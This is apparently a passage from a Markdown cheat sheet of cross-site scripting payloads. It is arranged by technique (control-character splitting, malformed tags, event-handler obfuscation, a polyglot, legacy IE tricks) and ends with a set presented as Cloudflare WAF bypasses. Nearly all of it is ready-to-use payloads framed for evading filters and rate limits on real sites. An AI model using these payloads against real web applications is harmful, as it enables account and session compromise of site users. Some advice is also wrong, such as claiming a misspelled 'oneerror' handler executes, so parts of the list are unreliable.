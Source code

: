 - **Tabs, Newlines, and Carriage Returns**: Split keywords with tabs (&#x09;), newlines (&#x0A;), or carriage returns (&#x0D;).
  - Example: `<a href="jav&#x0A;ascript:&#x0A;ale&#x0D;rt('XSS')">Click</a>`.
  - Advanced Variant: Null characters: `<IMG SRC=java\0script:alert("XSS")>`.
  - Use Case: Evades regex filters in WAFs like Cloudflare; test in HTTP requests.

- **Non-Printable Characters**: Use control characters (ASCII 1-32) like backspace (&#x08;).
  - Example: `<a href="  &#x8; &#23;   javascript:alert('XSS')">Click</a>`.
  - Use Case: Disrupts string matching in advanced WAFs.

#### 3. **Tag and Attribute Manipulation**
Exploit malformed or alternative tags that browsers auto-correct or interpret as executable.

- **Malformed Tags**: Create broken HTML that browsers repair into valid scripts.
  - Example: `<IMG """><SCRIPT>alert("XSS")</SCRIPT>">` or `<scr<script>ipt>alert(1)</scr<script>ipt>`.
  - Advanced Variant: Nested tags: `<svg onload=alert(1)>` or `<details open ontoggle=alert(1)>`.
  - Use Case: Bypasses tag blacklists; effective in HTML5 contexts like SVG or video elements.

- **Event Handler Obfuscation**: Misspell or obfuscate handlers like `onerror` to `oneerror`.
  - Example: `<img src=x oneerror=alert(1)>` or `<img/src="x"onerror=alert(1)>`.
  - Advanced Variant: Backticks instead of quotes: `<svg/onload=alert`XSS`>`.
  - Use Case: Targets filters blocking specific events; chain with `onmouseover` for user interaction.

- **Alternative Tags for Execution**: Use non-script tags with events.
  - Example: `<video><source onerror=alert(1)>` or `<a href=javascript:alert(document.domain)>Click</a>`.
  - Use Case: Evades `<script>` blocks; common in stored XSS.

#### 4. **Polyglot and Multi-Context Payloads**
Payloads that work across multiple contexts (HTML, JS, URL), making them versatile for blind testing.

- **Polyglot Payloads**: Combine closures for tags, styles, and scripts.
  - Example: `javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>`.
  - Use Case: Bypasses context-specific sanitizers; test in search fields or comments.

#### 5. **Browser-Specific and WAF Bypass Techniques**
- **IE/Edge Exploits**: Use VBScript or CSS expressions (legacy but still relevant in older systems).
  - Example: `<a href='vbscript:MsgBox("XSS")'>Click</a>` or `body { color: expression(alert('XSS')); }`.
- **Cloudflare WAF Bypasses**: Use highly obfuscated payloads combining encoding and typos (from recent shares).
  - Examples (advanced obfuscated set):
    - `<svg onload=alert&#x28;1&#x29;>`
    - `<img src=x onerror=alert&#40;1&#41;>`
    - `<script>alert`1`</script>`
    - `<details open ontoggle=alert(1)>`
    - And similar variants with mixed encodings.
  - Use Case: Targets modern WAFs; rotate payloads to evade rate-limiting.
